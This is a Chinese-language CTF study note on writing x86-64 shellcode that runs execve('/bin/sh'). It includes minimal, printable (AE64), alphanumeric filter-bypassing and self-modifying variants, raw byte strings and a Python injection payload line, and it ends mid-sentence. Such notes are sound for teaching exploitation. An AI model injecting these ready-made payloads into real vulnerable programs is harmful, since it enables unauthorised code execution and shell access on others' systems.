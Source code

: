 # shellcode

其实想要做的是代码注入总结篇

## 基础shellcode的书写

要做shellcode，认为有下面几点要解决：

- 一般情况下需要相应内存块至少有可执行权限，如果没有的话看看有没有`mprotect`函数，可以进行一个权限申请
- 需要知道写入地址，或者让寄存器指向写入的代码块

### 直接pwntools生成

```assembly
    /* execve(path='/bin///sh', argv=['sh'], envp=0) */
    /* push b'/bin///sh\x00' */
    push 0x68
    mov rax, 0x732f2f2f6e69622f
    push rax
    mov rdi, rsp
    /* push argument array ['sh\x00'] */
    /* push b'sh\x00' */
    push 0x1010101 ^ 0x6873
    xor dword ptr [rsp], 0x1010101
    xor esi, esi /* 0 */
    push rsi /* null terminate */
    push 8
    pop rsi
    add rsi, rsp
    push rsi /* 'sh\x00' */
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve /* 0x3b */
    pop rax
    syscall
```

这里将`/bin/sh`直接压入栈中，然后利用rsp的偏移获取地址，直接生成`shellcraft.sh()`生成即可，不做过多介绍

### 限制长度的shellcode（x86)

```assembly
xor rsi,rsi
push rsi
mov rdi, 0x68732f2f6e69622f
push rdi
push rsp
pop	 rdi
mov  al, 59
cdq
syscall
```

总长度为22（0x16)字节，实现的是`execve('/bin/sh','sh',0)`，构造出来的条件是这样的：

- rax:0x3b
- rdi:’/bin/sh’
- rsi:’sh’
- rdx:NULL

但是注意，需要eax的高二位为0(一般没什么问题)

bytes形式：

```assembly
\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05
```

可见字符形式(AE64生成)：

*关于ae64,直接看[这里](https://github.com/veritas501/ae64)就可以*

```assembly
WTYH39Yj3TYfi9WmWZj8TYfi9JBWAXjKTYfi9kCWAYjCTYfi93iWAZjrTYfi9h10t830T840T880T890t8A0T8B0T8CRAPZ0t80ZjBTYfi9O60t810T82RAPZ0T80ZH1vVHwzbinzzshWToxnQZP
```

**当然，出题人可能会通过一定的构造来要求更小字节的shellcode，主要就是对栈的理解（其实就是考察汇编功底）**

> 例如tgctf2025的shellcode，[这里](https://github.com/maple-pwn/for_fresher/blob/main/pwn/wp/tgctf/wp.md)

### 字符限制shellcode

一般会出现过滤掉某些特定字符，这时候可以用**自改变shellcode**或者**某些纯字母的shellcode**

纯字母（这里用的是[V3rdant的shellcode](https://v3rdant.cn/Pwn.Stack-Overflow-Overview/#shellcode%E7%9A%84%E4%B9%A6%E5%86%99)）

```assembly
// ref: https://hama.hatenadiary.jp/entry/2017/04/04/190129
/* from call rax */
push rax
push rax
pop rcx

/* XOR pop rsi, pop rdi, syscall */
push 0x41413030
pop rax
xor DWORD PTR [rcx+0x30], eax

/* XOR /bin/sh */
push 0x34303041
pop rax
xor DWORD PTR [rcx+0x34], eax
push 0x41303041
pop rax
xor DWORD PTR [rcx+0x38], eax

/* rdi = &'/bin/sh' */
push rcx
pop rax
xor al, 0x34
push rax

/* rdx = 0 */
push 0x30
pop rax
xor al, 0x30
push rax
pop rdx

push rax

/* rax = 59 (SYS_execve) */
push 0x41
pop rax
xor al, 0x7a

/* pop rsi, pop rdi*/
/* syscall */ 
.byte 0x6e
.byte 0x6f
.byte 0x4e
.byte 0x44

/* /bin/sh */
.byte 0x6e
.byte 0x52
.byte 0x59
.byte 0x5a
.byte 0x6e
.byte 0x43
.byte 0x5a
.byte 0x41
```

这一段shellcode可以绕过`\x05\x0f`的过滤，但是注意这里需要由`call rax`启动

**自改变shellcode**（这里用的whuctf2025中shell_for_shell）

```assembly
	mov si, word ptr [r15 + 0x100]	;r15的值+0x100，赋给si（rsi，16位模式)
    add si, 0x101					;再将si加上0x101
    mov word ptr [r15 + 0x100], si	;修改后的si存给r15+0x100的内存位置
    /*这里是为了给后面syscall找个确定位置，顺便自加一*/
    push 0x68						;压入"h"
    mov rax, 0x732f2f2f6e69622f		;压入/bin///s到rax中
    push rax						;压入rax中的值
    mov rdi, rsp					;栈顶指针给rdi，作为路径字符串的地址，后面直接写入execve

    push 0x1010101 ^ 0x6873			;异或的值压栈，避免显式空字节
    xor dword ptr [rsp], 0x1010101	;异或解密栈顶4字节，得到'sh\x00'
    xor esi, esi /* 0 */
    push rsi 						;作为字符串的\x00
    push 8							;压入8，后面计算‘sh\x00'字符串地址用
    pop rsi							;将8弹给rsi
    add rsi, rsp					;rsi=8+rsp，指向'sh\x00'
    push rsi 						;压入sh\x00
    mov rsi, rsp
    xor edx, edx /* 0 */
    /* call execve() */
    push SYS_execve 				;等价于push 0x3b
    pop rax							;弹给rax
```

注入时

```python
payload = (b"\x00\xc0"+asm(shellcode)).ljust(0x100-3, b"\x90")+b"\x0e\x04"
```

详细解释见